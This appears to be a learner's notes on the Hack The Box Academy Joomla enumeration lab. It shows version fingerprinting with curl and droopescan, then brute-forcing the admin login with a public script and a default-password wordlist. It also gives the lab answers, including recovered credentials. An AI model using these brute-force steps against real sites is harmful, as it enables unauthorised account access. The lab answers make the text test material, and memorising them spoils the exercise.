 While not as valuable as droopescan, this tool can help us find accessible directories and files and may help with fingerprinting installed extensions. At this point, we know that we are dealing with Joomla `3.9.4`. The administrator login portal is located at `http://dev.inlanefreight.local/administrator/index.php`. Attempts at user enumeration return a generic error message.

Joomla - Discovery & Enumeration

```shell-session
Warning
Username and password do not match or you do not have an account yet.
```

The default administrator account on Joomla installs is `admin`, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

Joomla - Discovery & Enumeration

```shell-session
AIceBear@htb[/htb]$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

And we get a hit with the credentials `admin:admin`. Someone has not been following best practices!

**Questions**

Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)

```bash
#1
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
  <version>3.10.0</version>
#2
droopescan scan joomla --url http://app.inlanefreight.local/
[+] Possible version(s):                                                        
    3.10.0-alpha1
```

Find the password for the admin user on http://app.inlanefreight.local

```bash
git clone https://github.com/ajnik/joomla-bruteforce
cd joomla-bruteforce
sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
admin:turnkey
```
